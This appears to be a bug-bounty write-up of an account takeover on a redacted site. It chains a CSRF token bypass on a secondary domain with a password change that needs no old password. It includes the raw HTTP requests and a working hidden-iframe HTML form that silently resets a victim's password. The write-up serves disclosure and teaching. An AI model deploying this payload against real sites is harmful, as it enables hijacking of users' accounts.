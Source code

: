 ```yaml
---
layout: post
title: Account takeover chaining CSRF and weak password reset policy
subtitle: 
tags: [write-up, CSRF, high, takeaways, $swag]
comments: false
published: true
---
```


### Background

**A Cross-site request forgery (CSRF)**  is an attack that forces a user to execute unwanted actions on a website on which they are authenticated. In short, a request to update the user password on [https://example.com](https://example.com) could be triggered if they visit [https://evil.com](https://evil.com) **IF** the former doesn't have any CSRF protections in place. 

A CSRF protection can consist of a randomly generated value included in the HTML page that is sent with the request and checked by the server to validate the request.


### Description

This program is made of the main application and multiple secondary applications to which you can connect independently **OR** using OAuth with the main application.

I first started to look for CSRF bypass in updating account request from the main application:

```
PUT /user/edit HTTP/1.1
Host: main.redacted.com

name=nkx&city=Paris&country=FR&token=5MzcxNOMWresc09mzduKfAOYFiLnj0LdzB9SsPZfc3sfAk7tI629&password_old=old_password&password_new=new_password
```

I tried to:
  -  Remove `password_old=old_password` to see if the password could be changed without the knowledge of the current password. That didn't work.
  - Remove the CSRF token from the request => `403 Forbidden`.
  - Leave the CSRF token fempty rom the request => `403 Forbidden`.
  - Set the CSRF token to true => `403 Forbidden`.
  - Use another user's CSRF token => `403 Forbidden`.

That was a dead end. Time to move on.

I signed up for one of the secondary websites. The technologies used here looked very similar to the ones from the main site. I tried updating my profile:

```
PUT /user/edit HTTP/1.1
Host: secondary.redacted.com

username=nkx&city=Paris&country=FR&token=MEd4NzQ5Mzk3OQkB4m18_vv580eH3opIhalOOqg_Vv
```

Removing the token resulted in `200 OK` which means that a CSRF attack is possible.

Now, it seemed that I could only change personal information.
I went back to the first request and realized both requests were identical except that the second one was missing a few arguments. The ones I was interested in where `old_password` and `new_password`.

Adding those arguments resulted in resetting the password:

```
PUT /user/edit HTTP/1.1
Host: secondary.redacted.com

username=nkx&city=Paris&country=FR&password_old=old_password&password_new=new_password
```

Now I have a CSRF bypass to update the user profile but I need to know the user password. Actually what happens if I remove `old_password`? 

Strangely enough, that worked. I had achieved a full account takeover **on the main domain** chaining a CSRF protection bypass with a weak password reset method.

The last issue is that even though I was able to reset someone's password, I had no notification of this happening. I needed a way to know if a user was tricked.

Fortunately, this request also allowed me to update the username which was reflected as a slug by going to the publicly available user profile page: `https://main.redacted.com/profile/nkx`.


Final request:

```
PUT /user/edit HTTP/1.1
Host: secondary.redacted.com

username=hacked-user&city=Paris&country=FR&password_new=account_takeover
```

After a victim visit on the malicious website, I can visit `https://main.redacted.com/profile/hacked-user` to verify that the attack worked and use the new username/password combination to log in.

### Proof of concept:

Burp Suite provides a one-click proof of concept generator but I usually do not use it.
I like to provide the following proof of concept in my CSRF reports adapted from [Portswigger web security labs](https://portswigger.net/web-security/cors):

```html
<iframe hidden sandbox="allow-scripts allow-top-navigation allow-forms" src='data:text/html, <body>
        <form id="csrf_form" action="https://www.secondary.redacted.com/user/edit" 
method="POST">
      <input type="submit" value="Submit request" />
      <input type="hidden" name="username" value="hacked-user" />
      <input type="hidden" name="password_new" value="account_takeover" />
    </form>
    </body>
    <script>
        document.getElementById("csrf_form").submit()
    </script>'>
</iframe>
```

This proof of concept doesn't require any user interaction except for visiting the malicious website which is a nice trick to enhance chances of the vulnerability being taken seriously by the triage team.
It might be obvious to you that this could be achieved without user interaction but it might not be for the triager.

### Takeaways

  - Identify, update, remove CSRF token on every request performing sensitive user data changes.

  - This fairly simple vulnerability arises only on the paid version of this program. After you got your first bounty, never hesitate to spend a couple of dollars to access features that have barely been touched by other hackers.

  - Always go the extra mile to make your attack scenario more plausible to maximize the chances of a successful triage.

### Summary

 - **Weakness**:
    - CSRF
    - Weak password reset policy
 - **Reward**: Swag
